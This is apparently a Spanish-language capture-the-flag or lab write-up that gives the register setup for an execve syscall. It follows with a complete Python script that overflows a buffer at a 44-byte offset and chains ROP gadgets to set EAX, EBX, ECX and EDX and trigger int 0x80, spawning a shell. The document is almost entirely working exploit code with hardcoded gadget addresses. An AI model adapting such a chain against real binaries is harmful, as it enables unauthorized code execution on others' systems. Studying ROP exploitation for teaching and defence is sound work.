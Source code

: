 ```
    EAX = 0xb (syscall execve)
    EBX = puntero a cadena
    ECX = 0x0 (NULL)
    EDX = 0x0 (NULL)
```

Este es el python que hice después de buscar los gadgets necesarios con la herramienta ropme:

```python
#!/usr/bin/python

from struct import pack

# Peta en 44
junk = "A" * 44

#GADGETS

gad1 = 0x80525ed		#pop ecx ; pop ebx ;;
gad2 = 0x80c8946		#inc ecx ;;
gad3 = 0x80525c6		#: pop edx ;;
gad4 = 0x8068c63		#: inc edx ; or al 0x5d ;;
gad5 = 0x8097bff		#: xor eax eax ;;
gad6 = 0x806a60f		#: inc eax ;;
gad7 = 0x80525ee		#: pop ebx ;;
#gad8 = 0x806fea8		#: int 0x80 ; pop ebp ;;
gad8 = 0x8052cf0		#: int 0x80 ;;

#AUXILIARES
padding = 0xdeadbeef
poncero = 0xffffffff
cadenaux = 0x080b0ee6
valor = 0x0000000b

#PAYLOAD

rop = pack('<I',gad1)
rop += pack('<I', poncero)
#rop += pack('<I', padding)
rop += pack('<I', cadenaux)
rop += pack('<I', gad2)
rop += pack('<I', gad3)
rop += pack('<I', poncero)
rop += pack('<I', gad4)
rop += pack('<I', gad5)
rop += pack('<I', gad6)
rop += pack('<I', gad6)
rop += pack('<I', gad6)
rop += pack('<I', gad6)
rop += pack('<I', gad6)
rop += pack('<I', gad6)
rop += pack('<I', gad6)
rop += pack('<I', gad6)
rop += pack('<I', gad6)
rop += pack('<I', gad6)
rop += pack('<I', gad6)
#rop += pack('<I', gad7)
#rop += pack('<I', cadapic)
rop += pack('<I', gad8)
rop += pack('<I', padding)

payload = junk + rop 

print payload
```